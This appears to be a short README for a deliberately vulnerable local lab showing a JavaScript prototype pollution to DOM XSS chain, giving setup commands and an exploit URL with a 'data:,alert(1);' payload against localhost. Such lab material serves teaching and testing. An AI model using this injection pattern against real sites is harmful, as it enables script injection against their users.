


# JavaScript Prototype Pollution → DOM XSS chain
set up: `node install`  
run: `node server.js`  
visit home: `http://localhost:3000/`  
Prototype pollution sink: `http://localhost:3000/?analytics_url=url`  
exploit:  `http://localhost:3000/?analytics_url=data:,alert(1);`

### Exploit the gadget with an alert:  
  

#### Prototype pollution sink:  
